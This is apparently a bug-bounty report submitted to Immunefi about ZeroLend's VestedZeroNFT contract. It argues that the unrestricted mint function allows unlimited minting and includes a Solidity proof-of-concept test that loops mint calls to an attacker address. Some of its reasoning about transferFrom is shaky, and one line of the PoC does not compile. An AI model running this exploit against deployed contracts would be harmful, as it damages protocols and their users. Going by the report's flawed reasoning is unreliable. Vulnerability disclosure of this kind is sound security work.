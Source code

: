 
# Unlimited Minting of VestedZeroNFT

Submitted on Thu Mar 07 2024 17:55:31 GMT-0400 (Atlantic Standard Time) by @oxumarkhatab for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29130

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
In current Implementation , the checks can easily be passed inside the public mint function because all the paramters are user controlled and there is no access control on that function.


## Vulnerability Details

The mint function does not have any access control implemented .
Also there are  checks which can easily be circumvented through careful 
crafting of those parameters and minting unlimited NFTs .

Take a look at this code 

```
    function mint(
        address _who,
        uint256 _pending,
        uint256 _upfront,
        uint256 _linearDuration,
        uint256 _cliffDuration,
        uint256 _unlockDate,
        bool _hasPenalty,
        VestCategory _category
    ) external returns (uint256) {
        _mint(_who, ++lastTokenId);

        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");

        if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }

        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });

        // fund the contract
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);

        return lastTokenId;
    }

```
First of all , there is no restriction to call this function so attacker can call and exploit it.

The function mints the latest ID NFT to the address passed , 
the attacker will pas his own address
`
        _mint(_who, ++lastTokenId);

`
Now attacker has to make this transaction success by avoiding require failures.
here's how he can do it.

If user pass `_unlockDate` as 0 , then following checks will be passed
`
        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");

`

Now for circumventing Plenty block, user will pass false

`
   if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }
`
a new Lock is created

`
     tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });
`

And lastly some zeroToken needs to be moved from attacker's pocket to VestedZeroNFT contract . Which attacker can easily trick by passing 
pending and upfront amounts as 0 , 
`
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);

`
See the protocol does not use safeTransferFrom , rather transferFrom from openzeppelin standard as it imports as follows 

`
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";

`
Looking at OZs implementation , this function returns false on not sucess, 
so whatever amount we pass in as _pending and _upfront , the transfer might fail but transaction will not . That is the sweet spot for attacker.

`
function transferFrom(address from, address to, uint256 value) external returns (bool);
`

The Transaction is sucessfully executed and now the attacker has New NFT.

This process can be repeated for as long as attacker wants to print money out of thin air .

If Governance can be affected by amount of NFTs you have , Attacker has successfully gained the absolute power to screw the governance.

Hence this vulnerability is of critical importance.

## Impact Details

Attacker can have unlimited NFTs at the cost of just gas for transaction : )

If Governance can be affected by amount of NFTs you have , Attacker has successfully gained the absolute power to screw the governance.

Hence this vulnerability is of critical importance.

## References
See PoC for more details
        
## Proof of concept
## Proof of Concept

```solidity

event NewTokenIDMinted(uint);

    function test_InfiniteMint()public {
        address DEPLOYED_VESTED_ZERO_NFT_ADDRESS=address();
        address AttackerAddress=0x37A8d3c717ec8fDc8BD859627F18ce89c31E1E8b;
        VestedZeroNFT vest=new VestedZeroNFT();
        for (uint i = 0; i < 1000; i++) {
            
            uint newTokenId =vest.mint(
                    AttackerAddress,
                    0,
                    0,
                    0, // pass any suitable value 
                    0, // pass any suitable value 
                    0 ,// to  these checks  if (_unlockDate == 0) _unlockDate = block.timestamp; require(_unlockDate >= block.timestamp, "invalid _unlockDate");
                    false,
                    VestCategory.EARLY_ZERO


                );
                emit NewTokenIDMinted(newTokenId);
            
            }

    }
```